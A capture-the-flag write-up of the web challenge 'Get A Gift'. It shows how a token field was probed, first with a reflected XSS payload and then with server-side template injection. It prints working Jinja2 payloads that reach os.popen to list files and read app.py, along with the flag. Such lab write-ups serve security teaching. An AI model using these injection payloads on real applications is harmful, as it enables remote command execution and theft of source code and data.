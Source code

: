 ## Get A Gift

### Description

Do you want a gift????   

**Author: algorab**

### Solution

#### Finding the Vulnerability

The first thing we notice is the input field in the page. As a wise man once said : "Never trust user input", we can try some types of payloads to see the reaction of the page. 

We have to use the format of the token given as a placeholder else we obtain an error.

![wrong format](./imgs/wrongformat.png)

Once we enter the token given as a placeholder, we can see that it is directly printed to the page.   

![placeholder](./imgs/placeholder.png)

We can quickly notice that this field is vulnerable to XSS (with payloads like `ABDC-1234-aB<script>alert("gift");</script>`) which is a good finding but useless in that case as this is only reflected in error message. We can also try forms of SQLi, which reveals unsuccessful. The correct intuition for this challenge is basically as it's printed to the page, maybe it is a template injection ([SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection))!  

Since there is a specific format to respect, we first try placing {{7\*7}} in the first part of the token (before the first dash). So our payload is `ABD{{7*7}}-1234-aB@358vG`. This actually did not work. We only obtain the wrong format error.  

So we can try the second position with `ABDC-123{{7*7}}-aB@358vG`, but in vain. But, the third one worked with the payload `ABDC-1234-aB@358vG{{7*7}}`!

![third](./imgs/third.png)

Nevertheless, we can see that the curly brackets are escaped. So we try the format `ABDC-1234-aB@358vG{ {7*7} }` which gives us the 49! 

#### Getting our Gift

We can try the command

```
TEST-1234-abcdef${ {self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()} }
```
Which performs an `ls` command in the directory of the `app.py`.
![first_payload](./imgs/first_payload.png)  

We also tried to check other directories `cd ..` etc but this only results in the invalid code error, just like `ls -al`. This made us  assume that spaces are actually escaped.


Therefore, we try to read the source code of the app using the command below :
```
TEST-1234-abcdef${ {self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat<app.py').read()} }
```
and flag !

![flag](./imgs/flag.png)

_This challenge encompassed several steps, requiring enumeration, the SSTI and bypassing the characters that were escaped._

### Flag

`N0PS{SSTI-1337-Templ4Te-1nJ3cT10N}`
